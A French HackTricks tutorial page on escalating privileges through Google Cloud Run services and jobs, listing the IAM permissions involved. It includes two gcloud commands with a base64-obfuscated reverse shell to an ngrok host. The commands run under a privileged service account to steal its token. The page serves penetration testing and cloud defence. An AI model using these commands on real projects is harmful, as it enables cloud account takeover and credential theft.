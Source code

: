 # GCP - Élévation de privilèges avec Run

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## run

### `run.services.create` , `iam.serviceAccounts.actAs`

Similaire à la méthode _cloudfunctions.functions.create_, cette méthode crée un **nouveau service Cloud Run** qui, lorsqu'il est invoqué, **retourne le jeton d'accès du compte de service** en accédant à l'API de métadonnées du serveur sur lequel il s'exécute. Un service Cloud Run sera déployé et une requête peut être effectuée pour obtenir le jeton.

Les **permissions suivantes sont requises** pour cette méthode :

* _run.services.create_
* _iam.serviceaccounts.actAs_
* _run.services.setIamPolicy_ **OU** _run.routes.invoke_

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image8-1000x503.png)

Cette méthode utilise une image Docker incluse qui doit être construite et hébergée pour être exploitée correctement. L'image est conçue pour indiquer à Cloud Run de répondre avec le jeton d'accès du compte de service lorsqu'une requête HTTP est faite.

Le script d'exploitation pour cette méthode peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) et l'image Docker peut être trouvée [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Pour une raison quelconque, lors de l'utilisation de `gcloud run deploy` au lieu de simplement créer le service, **il a besoin de la permission de mise à jour**. Consultez un [**exemple ici**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

Comme la précédente mais en mettant à jour un service
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

Donnez-vous les permissions précédentes.

### `run.jobs.create`, `run.jobs.run`, (`run.jobs.get`)

Lancez un job avec un reverse shell pour voler le compte de service indiqué dans la commande. Vous pouvez trouver un [**exploit ici**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/m-run.jobs.create.sh).

### `run.jobs.update`, `run.jobs.run`, `iam.serviceaccounts.actAs`, (`run.jobs.get`)

Similaire au précédent, il est possible de **mettre à jour un job et de mettre à jour le SA**, la **commande** et **l'exécuter** :
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

Donnez-vous les permissions précédentes.

## Références

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
